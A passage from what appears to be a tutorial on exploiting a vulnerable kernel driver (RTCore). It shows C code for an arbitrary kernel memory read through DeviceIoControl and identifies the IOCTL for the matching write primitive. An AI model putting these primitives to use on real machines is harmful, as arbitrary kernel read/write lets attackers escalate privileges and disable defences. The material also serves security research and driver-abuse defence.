```c

	DWORD BytesReturned;

	DeviceIoControl(
		hDevice,
		RTCORE_READ_IOCTL,
		&MemRead,
		sizeof(MemRead),
		&MemRead,
		sizeof(MemRead),
		&BytesReturned,
		NULL
	);

	return MemRead.Value;
}

DWORD64 ReadMemoryDWORD64(HANDLE hDevice, DWORD64 Address)
{
    return ((DWORD64)ReadMemoryDWORD(hDevice, Address + 4) << 32) |
           ReadMemoryDWORD(hDevice, Address);
}
```

### Kernel Memory Write Primitive

The arbitrary memory write primitive is done via IOCTL `0x8000204c`.

You’ll notice that this write primitive looks very similar to the aforementioned read primitive. In this case, we can write 1, 2, or 4 bytes. It’s important to understand how to distinguish between a read and a write primitive. While these primitives look similar, it is clear that this is a write primitive since the pointer to the provided address is set to the value pointed to by the systemBuffer whereas the read primitive took a pointer to an arbitrary address and returned it *back* to the systemBuffer. 

![figure-10](/assets/img/drivers-1/figure-10.png){:style="display:block; margin-left:auto; margin-right:auto"}
